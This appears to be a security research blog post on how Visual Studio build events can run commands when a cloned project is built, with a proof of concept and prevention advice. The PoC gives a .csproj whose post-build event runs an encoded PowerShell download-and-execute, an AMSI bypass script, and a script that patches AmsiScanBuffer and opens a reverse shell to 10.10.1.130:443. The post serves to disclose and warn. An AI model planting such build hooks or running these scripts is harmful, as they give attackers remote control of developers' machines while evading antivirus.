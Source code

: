 ```yaml
---
title: Security Risks For Building Projects In Visual Studio
description: Build events in Visual Studio can be dangerous
author: remco
date: 2023-10-22 11:33:00 +0800
categories: [Research, Windows]
tags: [research, Windows, Security]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/risks-vsstudio/vs-build-risks.png
---
```


It is very easy to clone a GitHub repository to Visual Studio, build it and use it. Who even cares about the source code right? Well, you should. After reading this blog you may want to reconsider building the program without checking it first.

## How does Visual Studio build a program?

To get a better understanding about the dangers of building a program in Visual Studio, we need to first understand how Visual Studio (VS) actually builds your program. 

Visual Studio uses a process called the MSBuild system to build projects. When you initiate a build within Visual Studio, here's a basic breakdown of what happens:

1. **Solution File:** Visual Studio organizes projects within a solution. When you build the solution, VS uses the solution file (.sln) to understand the projects it needs to build.
2. **Project Files:** Each project within the solution has its own project file (.csproj for C# projects, .vcxproj for C++ projects, etc.). These files contain configurations, references, compiler options, and more.
3. **MSBuild:** Visual Studio leverages MSBuild, which is a build platform used for compiling applications. MSBuild reads the project files, resolves dependencies, and orchestrates the build process.
4. **Tasks:** MSBuild executes a series of tasks to build the project. These tasks include tasks for compilation, resolving references, running preprocessors, etc. Tasks can be customized or extended using MSBuild targets.
5. **Output:** Once the build process completes, it generates the output files (executables, libraries, etc.) according to the configurations specified in the project files.

![](/assets/img/posts/risks-vsstudio/1.png)

More about Understanding the Build Process: ****[https://learn.microsoft.com/en-us/aspnet/web-forms/overview/deployment/web-deployment-in-the-enterprise/understanding-the-build-process](https://learn.microsoft.com/en-us/aspnet/web-forms/overview/deployment/web-deployment-in-the-enterprise/understanding-the-build-process)

## **PropertyGroup element**

In MSBuild, the `PropertyGroup` element is a fundamental building block within a project file (.csproj, .vcxproj, etc.) that defines a collection of properties. These properties can include various settings, configurations, or values used during the build process. 

[https://learn.microsoft.com/en-us/visualstudio/msbuild/propertygroup-element-msbuild?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/msbuild/propertygroup-element-msbuild?view=vs-2022)

## Build events

A build event is a command that MSBuild performs at a particular stage in the build process. These events allow developers to incorporate additional tasks or actions before or after the actual compilation and building of the project.

There are primarily four types of build events in MSBuild:

1. **Pre-build event:** Executed before the build process begins. Developers can use this event to perform actions like copying files, generating code, setting up environment variables, etc., necessary for the build.
2. **Post-build event:** Occurs after the build process completes. Actions such as copying the compiled output to specific directories, running tests, creating installers, or performing cleanup tasks are commonly performed during post-build events.
3. **Pre-link event (C++ projects):** Specific to C++ projects, this event occurs before the linker is invoked. Developers can perform custom actions before the linking phase, like modifying object files, updating resources, etc.
4. **Post-compile event (C++ projects):** Similar to the post-build event but specific to C++ projects, this event happens after compilation but before linking. Actions performed here might include additional processing on compiled files before the linking phase.

**Example:**

![](/assets/img/posts/risks-vsstudio/2.png)

Some of you will already see how this could potentially be harmful. If the build events execute commands or scripts that are not properly validated or sanitized, it could introduce security vulnerabilities. For instance, if the build event triggers scripts that download and execute external code from malicious sources, it can pose a significant security risk.

## Proof of Concept : Getting a reverse shell

<aside>
⛔ **Disclaimer:** Only use responsibly and legally. I do not assume any liability for any damages, losses, or adverse consequences resulting from the use or misuse of the PoC or information provided herein.

</aside>

For this PoC, I used a Windows 10 version 22H2 machine with Windows Defender + Firewall turned **ON**. I used a private GitHub repository to host my malicious repository that I can clone to VS. The VS version is “ Microsoft Visual Studio Community 2022 (64-bit) - Current Version 17.8.0”.

**csproj file**

```xml
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
    <PostBuildEvent>powershell.exe -e SQBFAFgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxAC4AMQAzADAALwBhAG0AcwBpAF8AYgB5AHAAYQBzAHMALgBwAHMAMQAnACkAKQA=</PostBuildEvent>
  </PropertyGroup>
</Project>
```

The csproj file includes a base64 encoded PowerShell script that gets executed using powershell.exe. The base64 payload was generated using:

```powershell
$payload = "IEX ((New-Object Net.WebClient).DownloadString('http://10.10.1.130/amsi_bypass.ps1'))"
[convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes("$payload"))
```

The payload actually uses a Invoke-Expression to invoke another PowerShell script that is hosted on a remote server. This script uses a AMSI bypass technique to bypass AMSI for the current process.

**amsi_bypass.ps1**

```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")

IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.1.130/shell.ps1'))
```

As you can see, after bypassing AMSI for the current process, the script invokes yet another script. This is shell.ps1.

**shell.ps1**

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

$LHOST = "10.10.1.130"; $LPORT = 443; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Shell.ps1 includes a technique to globally bypass AMSI. After doing so it will finally execute a reverse shell to the remote system listening on port 443 (HTTPS to also prevent firewall restrictions).

**Cloning the repository**

We copy the repository clone link to VS and click on “clone”:

![](/assets/img/posts/risks-vsstudio/3.png)

Using Kali, I will setup a webserver running on port 80 and listen on port 443 for incoming connects using netcat: 

![](/assets/img/posts/risks-vsstudio/4.png)

After setting everything up, we can build the project and see what happens.

![](/assets/img/posts/risks-vsstudio/5.png)

No errors in VS or Windows Defender pop-ups. Let’s take a look in Kali:

![](/assets/img/posts/risks-vsstudio/6.png)

Both scripts got downloaded successfully. Let’s take a look at our netcat listener:

![](/assets/img/posts/risks-vsstudio/7.png)

We successfully gained access to the system with Windows Defender + Firewall enabled on a up-to-date Windows 10 machine.

## Prevent building malicious programs

Build events are meant to be a VS functionality for developers. Disabling the build events is not a option since some programs require it build events to build the program properly. Although there are solutions to disable the events, it would be better to apply proactive measures and best practices:

- **Validate Inputs and Scripts:** Always validate inputs used in build events. Avoid directly incorporating user-provided or untrusted inputs in commands or scripts. Validate and sanitize inputs to prevent malicious code injection.
- **Restrict Permissions:** Limit the permissions granted to build events. Ensure that the build process has access only to the necessary resources and restrict unnecessary privileges.
- **Use Trusted Sources:** Avoid executing code or scripts from untrusted sources within build events. If external scripts or tools are necessary, ensure they come from reputable and trusted sources.
- **Education and Training:** Ensure that developers working on the project are aware of the risks associated with build events and are trained in secure coding practices. Promote a culture of security awareness within the development team.
- **Automated Builds in Secure Environments:** Consider setting up automated build processes in secure, isolated environments. These environments can have restricted access and controlled permissions, minimizing the impact of any potential malicious code.
